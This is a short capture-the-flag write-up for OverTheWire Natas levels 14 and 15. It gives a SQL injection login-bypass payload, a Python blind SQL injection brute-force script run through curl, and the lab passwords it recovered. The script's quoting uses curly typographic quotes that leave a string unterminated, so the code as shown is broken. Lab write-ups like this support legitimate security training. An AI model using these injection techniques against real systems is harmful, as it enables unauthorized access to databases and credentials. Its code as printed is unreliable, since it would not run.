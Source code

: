 ## Natas 14

Simple SQL injection.

Set either username or password as `" or 1=1 --` and get the password.

Password: `AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J`

## Natas 15

SQL injection.

View source page and find that the username is a SQL injection point. Noticed that the database only consists of username and password, we can brute force any password existing in the database one character at a time.

The following automated program is a DFS example that works for this challenge:

```python
import commands

def search(password):
    if len(password) <= 32:
        words = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234568790"
        for c in words:
            newpassword = password + c
            sql = 'curl -u natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J http://natas15.natas.labs.overthewire.org/index.php\?debug\=aa\&username\=\\\”%20or%20binary%20password%20like%20\\\”' + newpassword + '’
            return_code, output = commands.getstatusoutput(sql)
            if output.find('exists') > 0:
                print(newpassword)
                search(newpassword)

search("")
```

Side note: The username of this password is natas16

Password: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
